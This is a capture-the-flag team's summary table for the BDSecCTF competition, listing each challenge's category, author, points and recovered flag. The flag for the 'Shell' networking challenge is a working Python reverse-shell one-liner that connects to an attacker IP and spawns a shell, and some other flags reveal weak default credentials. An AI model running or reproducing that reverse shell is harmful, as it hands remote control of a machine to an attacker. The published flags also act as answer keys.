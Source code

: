 # BDSecCTF - Write Up

## Context
The goal is to solve cybersecurity tests in various categories. The validation of a challenge is done by retrieving a string called flag which confirms the fact that you have passed the associated test and allows you to obtain the associated points.

## Rules
- Time : 24h (07/20/22 17h - 07/21/22 17h (UTC+2) )
- Max Pers per Team : 5
- Submit Limit : 30 per chall

## Results 
<p align='center'>

| ![Screenshot](Stats.png)            | ![Screenshot](Scoreboard.png)                                                                                                           |
| --------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
</p>

## Challenges

| Chall Name                                                       | Category     | Author     | Points | Completed | Flag |
|------------------------------------------------------------------|:-------------:|:----------:|:--------------:|:------:|:---------------------------------:|
| Sound's Good                                    | Stegano          | pmsiam   | 50     | ✘ | `` |
| Deep Dive Into It !!                                           | Stegano        | pmsiam   | 250     | ✘ | `` |
| PwnRace                                    | PWN        | froghunter   | 200     | ✔ | `` |
| BDSec License Checker 0x1                                    | Reverse        | NomanProdhan   | 50     | ✘ | `BDSEC{l1c3n53_ch3ck3r_0x1_2022}` |
| shashdot                                    | Reverse        | froghunter   | 50     | ✘ | `` |
| Flag Box                                    | Reverse        |  marufmurtuza   | 100     | ✔ | `` |
| Simple Math                                    | Reverse        |  marufmurtuza   | 100     | ✔ | `` |
| Poster                                    | Reverse        |  froghunter   | 100     | ✔ | `` |
| BDSec License Checker 0x03                                    | Reverse        |  NomanProdhan   | 150     | ✘ | `BDSEC{iTs_lIcEnsE_cHeCker_tHrEE_bDsEc}` |
| BDSec License Checker 0x02                                    | Reverse        |  NomanProdhan   | 200     | ✘ | `` |
| Crypto Code                                    | Crypto        | 1xR1FAT   | 25     | ✔ | `BDSEC{cryp70_and_pyth0n_ar3_aw3s0me}` |
| [VIPx01](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/VIPx01)                                    | Crypto        | 1xR1FAT   | 25     | ✔ | `BDSEC{crypt0_ar3_aw3s0m3}` |
| VIPx02                                    | Crypto        | 1xR1FAT   | 25     | ✘ | `` |
| [Fake](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Fake)                                    | Crypto        | 1xR1FAT   | 50     | ✔ | `BDSEC{do3sn't_b3li3ve_1n_unkn0wn_mail}` |
| [Basically RSA](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Basically%20RSA)                                    | Crypto        | dyn   | 100     | ✔ | `DSEC{r54_i5_fUn_r16h7?}` |
| Dominoes                                    | Crypto        | dyn   | 50     | ✘ | `BDSEC{n0t_50_e45y_hUh?_433}` |
| Loop Lover                                    | Crypto        | dyn   | 100     | ✘ | `BDSEC{ju57_L00p_m3_4w4y}` |
| Jungle Templating                                    | WEB        |  0xmahi   | 100     | ✔ | `BDSEC{Y3Y_7H1515_7H3_F146}` |
| Awesome Note Keeping                                    | WEB        |  NomanProdhan   | 100     | ✔ | `BDSEC{tHe_n0t3_K33p1n6_4W350M3_N5}` |
| Knight Squad Shop                                    | WEB        |  froghunter   | 100     | ✔ | `BDSEC{mummy_i_can't_write_javaScript}` |
| [Find The Cost](https://github.com/Beel0w/BDSecCTF/tree/main/Programming/Find%20the%20Cost)                                    | Programing        | marufmurtuza| 100     | ✔ | `BDSEC{35,47}` |
| Find The Masterpiece                                    | OSINT        | marufmurtuza   | 50     | ✔ | `BDSEC{he’s_a_pirate,2003}` |
| [Find Rejvi](https://github.com/Beel0w/BDSecCTF/tree/main/OSINT/Find%20Rejvi)                                    | OSINT        | NomanProdhan   | 70     | ✔ | `BDSEC{yoU_goT_m3__oS1nT_I5_fUn_r1Gh7}` |
| Find Me Inside | OSINT        | Axif   | 50     | ✔ | `BDSEC{M33m_the_butterfly_goes_up_up_and_away}` |
| [Message of Hufflepuff](https://github.com/Beel0w/BDSecCTF/tree/main/Misc/Message%20of%20Hufflepuff)                                    | Misc        | marufmurtuza   | 50     | ✔ | `BDSEC{Huffm@n_Enc0d1ng_go7_D3COD3D}` |
| Victim & Attacker | Networking        | TareqAhamed   | 25     | ✔ | `BDSEC{192.168.1.13_192.168.1.10}` |
| Which FTP ? | Networking        | marufmurtuza   | 50     | ✔ | `BDSEC{vsFTPd_3.0.3}` |
| FTP Creads | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{ftpadmin_ftpadmin}` |
| Uploaded File | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{/files/.hacker.not}` |
| Log Filer | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{vsftpd.log}` |
| Project Incharge | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Loooon Looong | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{Thu_Jul_14_10:16:59}` |
| Administrator | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Shell | Networking        | TareqAhamed   | 50     | ✔ | <details><summary>`BDSEC{....`</summary>`BDSEC{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'}`</details> |
| Secret Key | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Database Admin | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{root_root}` |
| HostName | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{ftpadmin}` |
| CodeName | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{xenial}` |
| Server Info | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Service Exploit | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{polkit}` |
| Exploit Exploit Exploit | Networking        |  marufmurtuza   | 50     | ✔ | `` |
| Vulnerable Service | Networking        | TareqAhamed   | 50     | ✔ | `` |
| msg.txt | Networking        | TareqAhamed   | 50     | ✔ | `` |
| Attacker | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{N4N0M473}` |
| Server User's | Networking        | TareqAhamed   | 50     | ✔ | `BDSEC{8}` |  

**Total : 46 Challenges ( 3220 Points )**
 
Credits : [Beel0w](https://github.com/Beel0w)  
Last Edited on: 22/07/2022
  
